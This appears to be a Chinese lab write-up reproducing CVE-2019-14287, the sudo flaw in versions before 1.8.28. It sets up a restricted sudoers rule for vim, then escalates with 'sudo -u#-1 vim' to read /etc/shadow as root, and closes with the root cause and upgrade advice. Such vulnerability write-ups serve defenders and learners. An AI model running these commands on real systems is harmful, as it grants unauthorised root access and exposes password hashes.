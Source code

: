 # （CVE-2019-14287）sudo提权漏洞

***\*实验环境：\****

kali

***\*影响范围：\****

sudo 1.8.28 之前的所有版本

***\*复现过程\****

查询下sudo的版本

sudo -V

![img](.resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-1571364945.png)

创建用户

useradd testpasswd test

![img](.resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-15713649451.png)

编辑下sudoers文件

![img](.resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-15713649452.png)

这里添加了

test   ALL=(ALL, !root) /usr/bin/vim

这里表示 test 可以 任意主机上  任何用户  但这个用户不能属于root组  执行vim命令

 

这里介绍下字段含义:

授权用户/组 主机=[(切换到哪些用户或组)][是否需要输入密码验证] 命令1,命令2



***\*第一个字段表示：\****

授权用户/组     不以%开头的，代表“将要授权的用户”   以%开头的表示“将要授权的组”

***\*第二个字段表示：\****

允许登录的主机

***\*第三个字段表示：\****

可以切换到的用户或者组，省略表示切换到root。 如果不省略需要用括号表示  (用户:组)

***\*第四个字段表示：\****

若添加NOPASSWD表示不需要输入密码，如果省略则表示需要输入密码

***\*第五个字段表示：\****

可以运行的命令

我们用test用户登录下Kali，并尝试读取shadow文件

![img](.resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-1571364946.png)

然后我们输入

sudo -u#-1 vim或者sudo -u#4294967295 vim

进入到vim

![img](.resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-15713649461.png)

在命令模式下尝试读取/etc/shadow文件

![img](.resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-1571364947.png)

![img](.resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-1571364947.jpg)

 成功读取，同样也可以用vim执行其他的命令（以root身份）

 

***\*总结OR预防：\****

1.之所以会产生这个漏洞，是因为将用户 ID 转换为用户名的函数会将 -1（或无效等效的 4294967295）误认为是 0，而这正好是 root 用户 User ID

2.请将 sudo 升级到 1.8.28 最新版本，该漏洞会影响 1.8.28 之前的所有版本。